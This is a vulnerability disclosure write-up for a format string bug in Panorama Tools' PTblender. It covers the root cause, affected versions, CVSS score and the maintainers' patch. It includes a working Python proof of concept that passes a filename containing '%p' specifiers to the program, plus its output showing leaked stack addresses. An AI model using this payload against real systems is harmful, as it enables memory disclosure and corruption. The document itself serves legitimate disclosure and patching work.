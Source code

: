 ```yaml
---
title: CVE-2024-28217
tags:
  - vulnerability-discovery
  - open-source
date: 2024-03-08
slug: CVE-2024-28217
---
```


# Summary

A user-controlled format string in `ReadHistograms()` in Panorama Tools' `PTblender` `0.4` through `2.9.21` allows local users to crash the program, or read and write the memory via the filename of an image.

# Root cause analysis

The `PrintError` variadic function takes a format string as the first parameter and is a proxy for `PrintErrorIntern`. The latter calls `vsnprintf(message, sizeof(message)-1, fmt, ap)`, where `fmt` can be user-controlled. The output is printed afterward in a `printf` call.

Having this in mind, one needs to call `PrintError` with a user-controlled input in order to trigger the format string vulnerability. By analysing the source code, it was deduced that the function is called in this fashion in multiple locations.

`PTblender` was leveraged as it can produce the following call trace: 
 
1. `ColourBrightness.c:ColourBrightness()`;
2. `ColourBrightness.c:ReadHistograms`; and
3. `PrintError` with a tainted argument.

`ReadHistograms` creates a `tempString2` string using `snprintf(tempString2, sizeof(tempString2)-1, "Could not open TIFF file [%s]", tempString)`. As `tempString` is user-controlled via `PTblender`'s arguments, it can contain control strings like `%s`, `%p`, and `%n`. They will be reflected in `tempString2`, which is used as an argument for `PrintError`, which triggers the format string vulnerability.

# CWEs

- CWE-134: Use of Externally-Controlled Format String

# Affected components and releases

The affected function is `ReadHistograms()` from `ColourBrightness.c`, which is called when running the `PTblender` executable.

`PTblender.c` and the vulnerable code from `ColourBrightness.c` were introduces in the revision 217. All subsequent releases after January 2006 (starting from `0.4`) are vulnerable.

The vulnerability was patched in `271b8ab4bd66` by removing the `snprintf` call before `PrintError`. The commit is embedded in the `2.9.22` release.

This being said, the versions are those between `>=0.4` and `<=2.9.21`.

# Attack vector

An attacker must control the filename of the image supplied for processing to `PTblender`.

# Impact

The format string attacks permit the attacker to interrupt `PTblender`'s functioning, read the memory of the process, or write to it.

# CVSS v3.1 vector

- Vector: `AV:L/AC:L/PR:L/UI:R/S:U/C:L/I:L/A:H`
- Base score: 6.1

# Steps to reproduce

By running the above script, an error containing the stack's content will be printed:

```python
from pwn import process, ELF
import shutil
import os

FORMAT_STRING = "%p%p%p%p"
FIRST_IMAGE_FILENAME = FORMAT_STRING + ".tiff"
SECOND_IMAGE_FILENAME = "backup.tiff"

shutil.copyfile("image.tiff", FIRST_IMAGE_FILENAME)
shutil.copyfile("image.tiff", SECOND_IMAGE_FILENAME)

p = process(
    [
        "/usr/bin/PTblender",
        "-f",
        "-p",
        "mend",
        FIRST_IMAGE_FILENAME,
        SECOND_IMAGE_FILENAME,
    ]
)

os.remove(FIRST_IMAGE_FILENAME)

output = p.recvall().decode("utf-8")
print(output)
```

A run of the exploitation script on Ubuntu 22.04 LTS outputs the following:

```bash 
$ python3 exploit.py 
[...]
PTblender Version 2.9.20 , originally written by Helmut Dersch, rewritten by Daniel M German
Output prefix 2 mend
TIFFOpen: %p%p%p%p.tiff: No such file or directory.
Could not open TIFF file [0xffffa9cbab58(nil)(nil)0x3ffffa7de4d20.tiff]
[...]
```

# Patch

## Recommended to the maintainers

As `PrintError` is intended to be called with a format string and multiple arguments, it can be gcc-annotated with `format`, such that the format argument is type checked during compilation. Please see [ gcc's documentation](https://gcc.gnu.org/onlinedocs/gcc-9.2.0/gcc/Common-Function-Attributes.html#index-Wformat-3).

## Applied by the maintainers

The vulnerability was patched in [the commit `271b8a`](https://sourceforge.net/p/panotools/libpano13/ci/271b8ab4bd662605f96969cc7362bb466d21a1d3/) by removing the `snprintf` calls before the `PrintError` ones.

The patch was made available to the users in [the `2.9.22` release](https://sourceforge.net/projects/panotools/files/libpano13/libpano13-2.9.22/).

